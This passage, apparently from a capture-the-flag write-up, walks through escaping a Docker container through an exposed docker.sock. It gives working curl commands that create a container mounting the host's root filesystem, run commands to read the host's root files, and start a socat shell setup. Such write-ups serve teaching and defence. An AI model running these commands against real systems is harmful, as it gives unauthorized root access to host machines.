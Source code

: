 The first two steps are the same - create and start an instance. This
time, I'll create it without the `Cmd` parameter:



    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start



Now I'll add a command, which will return an ID:



    curl -s -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Cmd": ["ls", "-l", "/rootfs/root/"], "AttachStdout": true, "AttachStderr": true, "Tty": true}' http://localhost/containers/${id}/exec
    {"Id":"f55b2c9d029f0588d615cbb3d4b04e2aaf1ae4438cabfa1122643ece406c4ecc"}



This ID is not the container ID, but the exec ID. I'll use the `start`
option to run the command and print the results:



    root@2d24bf61767c:~# curl -s -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" http://localhost/exec/f55b2c9d029f0588d615cbb3d4b04e2aaf1ae4438cabfa1122643ece406c4ecc/start -d '{"Detach": false, "Tty": true}'
    total 8
    -rw-------    1 root     root            33 Sep  1 13:19 root.txt
    drwxr-xr-x    3 root     root          4096 May 18 08:44 snap



### Socat Shell in Container w/ Host FS \[Method #3\]

[This blog
post](https://blog.secureideas.com/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.md)
shows how to hook socat into the socket to get an ugly shell in the new
container. Just like before, I'll create and start a container, this
time with some extra parameters. The blog recommends storing them in a
`container.json` file, so I'll do that. Pretty printed it looks like
(though the real file doesn't have the newlines or spacing):



    {
      "Image": "sandbox:latest",
      "Cmd": [
        "/bin/sh"
      ],
      "DetachKeys": "Ctrl-p,Ctrl-q",
      "OpenStdin": true,
      "Mounts": [
        {
          "Type": "bind",
          "Source": "/",
          "Target": "/rootfs"
        }
      ]
    }
